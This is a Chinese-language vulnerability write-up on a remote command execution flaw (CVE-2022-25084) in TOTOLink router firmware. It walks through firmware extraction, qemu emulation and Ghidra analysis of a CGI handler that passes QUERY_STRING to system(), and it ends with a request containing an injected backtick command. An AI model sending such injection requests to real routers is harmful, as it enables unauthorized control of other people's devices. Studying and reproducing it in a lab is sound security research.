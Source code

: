 # TOTOLink 多个设备 download.cgi 远程命令执行漏洞 CVE-2022-25084

## 漏洞描述

TOTOLink 多个设备 download.cgi文件存在远程命令执行漏洞，攻击者通过构造特殊的请求可以获取服务器权限

## 漏洞影响

<a-checkbox checked>TOTOLink 多个设备</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"totolink"</a-checkbox></br>

## 漏洞复现

下载路由器固件

![img](/assets/PeiQi-Wiki/img/1648907409606-0704b8c0-aa5c-44d4-9d45-9fd1c0c62736.png)

使用binwalk分解固件

![img](/assets/PeiQi-Wiki/img/1648907425761-dabc39f3-ac5e-483c-b446-4e7a3883afec.png)

查看分解出来的文件

![img](/assets/PeiQi-Wiki/img/1648907514313-7f8d3965-8435-484d-b67d-b04aae2da33e.png)

![img](/assets/PeiQi-Wiki/img/1648907561137-36b56f40-cc42-4c25-b53a-74554b0e5fa7.png)

使用qemu搭建路由器

```php
#set network
sudo brctl addbr virbr2
sudo ifconfig virbr2 192.168.6.1/24 up
sudo tunctl -t tap2
sudo ifconfig tap2 192.168.6.11/24 up
sudo brctl addif virbr2 tap2

qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1" -netdev tap,id=tapnet,ifname=tap2,script=no -device rtl8139,netdev=tapnet -nographic
```

创建后在qemu里执行命令启动路由器

```php
ifconfig eth0 192.168.6.11 up 
scp -r squashfs-root/ root@192.168.6.11:/root/    	
chroot ./squashfs-root/ /bin/sh
touch /var/run/lighttpd.pid
./bin/lighttpd -f ./lighttp/lighttpd.conf -m ./lighttp/lib
```

注意 `lighttpd.conf` 文件需要修改 `server.pid-file` 参数

![img](/assets/PeiQi-Wiki/img/1648908009576-87dcb518-213e-49cf-9a00-9f3c4d90e955.png)

启动后访问路由器页面

![img](/assets/PeiQi-Wiki/img/1648912800395-a085fc01-e97b-4044-bc06-fc5f894928f5.png)

我们找到需要分析的文件目录 `squashfs-root/web_cste/cgi-bin`

![img](/assets/PeiQi-Wiki/img/1648909334138-f28cf393-17e6-48a8-80f0-7a5288419e78.png)

使用Ghidra分析 cgi文件 `downloadFile.cgi`

![img](/assets/PeiQi-Wiki/img/1648910386798-e04871ca-ff36-4843-bb3d-2f382c078ed4.png)

我们注意到其中的system执行命令

```php
pcVar1 = getenv("QUERY_STRING");
memset(acStack1424,0,0x200);
memset(acStack912,0,0x200);
sprintf(acStack1424,"echo QUERY_STRING:%s >/tmp/download",pcVar1);
system(acStack1424);
```

其中 getenv 从请求Url中获取参数,传参给pcVar1，再通过下面的sprintf 赋值给 acStack1424 使用 system函数 进行命令执行

![img](/assets/PeiQi-Wiki/img/1648910646489-cfd02a84-6b04-4fb4-a4fa-dd3e007c045a.png)

我们构造请求包控制 QUERY_STRING 参数来进行恶意命令执行

```php
/cgi-bin/downloadFlile.cgi?payload=`ls>../cmd.txt`
```

![img](/assets/PeiQi-Wiki/img/1648912604072-692cfff6-164e-4724-9a10-f89b3b62dc79.png)

![img](/assets/PeiQi-Wiki/img/1648912691525-e03b2fc4-4cf4-46d7-a379-e31a80d0f2d6.png)